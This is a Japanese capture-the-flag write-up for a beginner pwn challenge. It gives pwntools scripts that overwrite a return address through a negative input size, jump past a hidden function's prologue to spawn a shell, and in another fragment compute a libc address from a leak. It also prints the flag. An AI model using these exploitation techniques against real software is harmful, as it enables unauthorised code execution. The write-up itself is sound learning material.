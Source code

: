 ```python
write_addr = res[-8:]
print(write_addr)
rce_addr = u64(write_addr) - offset_libc_write + offset_libc_rce
log.info(rce_addr)

payload = b"a" * 32 + p64(rce_addr)
print(payload)
conn.sendline(payload)
log.info(conn.recvrepeat(1))

conn.interactive()
```



flagは `ctf4b{0v3rwr!t3_Func7!on_p0int3r}` 



## memo

これも解けなかった。普通に分からんかった。

最初[warm up]になっていたし、普通に簡単そうなのに全然解けなかった。

input サイズを聞かれ、数値を入力し、その後contentを入力するとそれを出力してくれる。

ただ、数値は負数でも通ってしまうので、負の値を入れることでリターンアドレスを書き換えることができる。

そして、シェルを起動するhidden関数がご丁寧に用意されているので、そこに飛ばせば良いと思いきや、、。

普通に飛ばしても全然うまくいかない。

これはどうやらrbpを上書きしてしまったせいで変な値になっており、system関数の中でエラーが発生してしまうためらしい。

そのため、hidden関数の最初の `push rbp; mov rbp, rsp; ` を飛ばしてあげれば良い。



### 解法

1. 最初の入力で -96 以下の値を入力する。-96以下の値は何を入力しても書き込まれる場所は変わらない（多分）
2. 適当に8文字 + hidden関数の3命令目のアドレスを入力する。



```python
from pwn import *
rhp = {'host': '133.242.68.223', 'port':35285}
hidden = 0x4007bd
hidden_skip_prologue = 0x4007c1

conn = remote(rhp['host'], rhp['port'])

log.info(conn.recv()) 
payload = "-96"
print(payload)
conn.sendline(payload)
log.info(conn.recv()) 
payload = b"A" * 8 + p64(hidden_skip_prologue)
print(payload)
conn.sendline(payload)

conn.interactive()
```
